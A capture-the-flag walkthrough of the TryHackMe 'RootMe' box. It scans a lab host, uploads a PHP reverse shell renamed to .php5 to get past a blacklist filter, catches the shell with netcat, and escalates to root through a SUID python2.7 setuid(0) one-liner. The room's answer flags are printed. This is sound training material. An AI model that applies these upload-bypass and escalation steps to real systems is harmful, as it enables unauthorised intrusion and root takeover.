



# RootMe

**Room:** [RootMe](https://tryhackme.com/room/rrootme) · **Difficulty:** Easy · **OS:** Linux

A beginner box built around two classic mistakes: a file-upload form that blocks only the `.php` extension, and a SUID bit left on the Python interpreter. Upload a PHP reverse shell under an alternative extension, catch it as `www-data`, then use `python2.7` to call `setuid(0)`.

---

## 1. Reconnaissance

### Port scan

```bash
nmap -p- --min-rate 1000 -T4 -sV -Pn -oA nmap_full_scan 10.48.139.101
```

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http?
```

Only SSH and HTTP are open, and there are no credentials for SSH yet, so the web server is the target.

### Content discovery

```bash
ffuf -u "http://10.48.139.101/FUZZ" -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -r
```

```text
css                     [Status: 200]
js                      [Status: 200]
panel                   [Status: 200]
server-status           [Status: 403]
uploads                 [Status: 200]
```

`/panel` (an upload form) and `/uploads` (where uploaded files are stored) are the pair that matters: if the upload accepts server-side code and `/uploads` serves it back, that is remote code execution.

---

## 2. Foothold — bypassing the upload filter

`/panel/` offers a file-upload form. A stock PHP reverse shell (`reverse.php`) is selected:



Uploading it with a `.php` extension is rejected, which shows the filter is only a blacklist on the literal `.php` extension. Apache's PHP handler on this box, however, also executes alternate extensions such as `.php5`. Intercepting the request in Burp and renaming the upload to `reverse.php5` passes the filter, and the server's success response links to `../uploads/reverse.php5`:



The `/uploads/` directory listing confirms the file landed there and is reachable:



With a listener running, requesting `/uploads/reverse.php5` triggers the payload:

```bash
nc -lvnp 4444
```

```text
connect to [192.168.158.240] from (UNKNOWN) [10.48.139.101] 43444
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### User flag

```bash
cd /var/www
cat user.txt
```

```text
THM{y0u_g0t_a_sh3ll}
```

---

## 3. Privilege escalation — SUID `python2.7`

SUID binaries run with the owning user's privileges (here, root) no matter who executes them, so they're the first thing to check:

```bash
find / -perm -4000 -type f 2>/dev/null
```

Among the standard system SUID binaries, `/usr/bin/python2.7` stands out — an interpreter is never meant to carry the SUID bit, because it lets anyone who can run it execute arbitrary code as the file's owner.

### Root flag

```bash
/usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash")'
whoami
```

```text
root
```

```bash
cd /root
cat root.txt
```

```text
THM{pr1v1l3g3_3sc4l4t10n}
```
